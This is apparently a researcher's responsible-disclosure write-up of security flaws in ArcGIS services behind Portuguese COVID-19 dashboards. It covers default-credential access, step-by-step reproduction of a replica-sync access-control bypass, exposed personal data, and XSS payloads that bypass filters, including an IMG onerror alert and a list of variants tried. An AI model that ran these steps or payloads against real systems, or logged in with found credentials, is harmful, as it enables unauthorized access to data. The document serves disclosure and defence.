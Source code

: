# From a COVID-19 dashboard to the discovery of multiple security flaws

COVID-19 surely caught many off guard and one of the implications of that was the need to quickly come up with software solutions that eased decision-making around the virus and also helped citizens staying informed.

In Portugal, the government created the COVID-19 Digital Response Office with the goal of evaluating, implementing and providing information on how to best use the digital world to tackle the pandemic. Its members are the government itself, other national entities (including health departments), some IT companies, academic instutions and some associations.

One of the outputs of this response office was a set of dashboards combining data on the evolution of virus spread in the population over time. These dashboards were built with https://www.arcgis.com/[ArcGIS], a geographical information system available since 1999 and created by https://www.esri.com/[ESRI], a company whose official https://www.esri-portugal.pt/pt-pt/home[portuguese distributor] is a member of the COVID-19 Digital Response Office.

Those dashboards did call for my curiosity on finding out more about the software and data behind them.
This article is therefore a compilation of security vulnerabilities, misconfigurations and data exposures that I have encountered and reported to the responsible entities so that they could get addressed.

## 1. Accidentally hacking a user

While searching the ArcGIS documentation pages for reference information on its REST API, I felt the need to go more hands-on and actually play with the API myself. In fact, ArcGIS is licensed for free for personal use, but I was not aware of this fact at the time. Instead, I found some test credentials (something like "test" as username and "test" as password) which I figured could be the credentials for a test development account in ArcGIS.

Turns out I was able to successfully log in to the system with those credentials, but my assumption was wrong. This was not a test account, it was an actually usable account. And this account had a ton of usage credits available.

https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A6-Security_Misconfiguration[The exploitation of default credentials is a very common attack vector] and of zero complexity in most cases. However, after contacting ESRI about this incident, I was informed that this was not an officially created test account, instead it was created by an actual user of the system, who happened to work at ESRI judging from the `@esri.com` email address.

## 2. Access Control vulnerability

Incorrect access control vulnerability in Feature Service in ArcGIS Online 8.1 allows remote attackers to read data from a Feature Service which does not have the "Query" capability by synchronizing it against a replica which belongs to a different Feature Service.

Steps to reproduce:
1. Create Feature Service A with capabilities "Create, Editing, Sync" (no Query) and which disallows creating replicas.
2. Try to create a new replica of Feature Service A at https://<featureservice-A-url>/createReplica and verify the operation fails with the error "This operation is not supported.".
3. Create Feature Service B with capabilities "Create, Query, Editing, Sync" and which allows creating replicas.
4. Create a new replica of Feature Service B at https://<featureservice-B-url>/createReplica.
5. Use the new replica to synchronize snapshot against Feature Service B at https://<featureservice-B-url>/synchronizeReplica and verify the operation succeeds as expected.
6. Use the same replica ID of Feature Service B to synchronize snapshot against Feature Service A at https://<featureservice-A-url>/synchronizeReplica and verify the operation succeeds displaying a snapshot of all data, even though the replica belongs to a different feature service and the "Query" capability is not present.

## 3. Leaked data due to wrong permissions

23 services were identified as containing sensitive personal data.

In total, the exposed data contained:
* ~2500 personal names
* ~500 personal email addresses
* ~500 personal phone numbers
* ~50 personal street addresses
* ~1000 ID card numbers
* ~150 free-text opinion form responses
* ~150 1-5 rating form responses

In addition to this textual data, I found an attachment image containing a screen capture of a Skype conversation that had happened on the 20th April 2020. The chat messages visible in this screen capture included an URL and two values which appeared to be a username and a password.
The URL pointed to the ArcGIS administration page used by the city council of Condeixa-a-Nova (Coimbra, Portugal), which means that the other two values were very likely the administrator credentials of the ArcGIS service used by this city council.

Having contacted both Esri PT and Condeixa's city council, the issues got resolved quickly and therefore the personal data is no longer exposed and the password for the administrator account has been changed.

## 4. Wrong permissions in COVID-19 dashboard
https://services.arcgis.com/CCZiGSEQbAxxFVh3/ArcGIS/rest/services/COVID19_Survey_vw/FeatureServer
https://services.arcgis.com/CCZiGSEQbAxxFVh3/ArcGIS/rest/services/service_e56676a38ad54b78951050808f2be62c/FeatureServer

Resolved by the 30th June 2020.

## 5. XSS vulnerability

https://support.esri.com/en/bugs/nimbus/QlVHLTAwMDEzMzI1Nw==

Creating a layer with the below text as its title causes an alert message to be displayed to the user, proving that XSS is possible.
<IMG src="#" STYLE="'onerror=alert('XSS!');'">

The malicious javascript is executed upon clicking the "Show Table" button for the corresponding layer in the Web Map Viewer.

Example: https://arcg.is/0yviqj


Success:
Layer title: <IMG src="#" STYLE="'onerror=alert('FCPorto!');'">
Layer cell: <IMG src="#" STYLE=""onerror=alert('FCPorto!');"">
<img src="#" style="" onerror="alert('FCPorto!');''">

Failures:

<IMG src="#" onerror="alert('FCPorto!');">
<img src="#">

<IMG SRC=\"javascript:alert('XSS');\">
<img src="#alert(" xss');'="">

<TABLE BACKGROUND="javascript:alert('XSS')">
<table></table>

<DIV STYLE="width: expression(alert('XSS'));">
<div style="width: expression(alert(" xss'));'=""></div>

<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">
(empty)
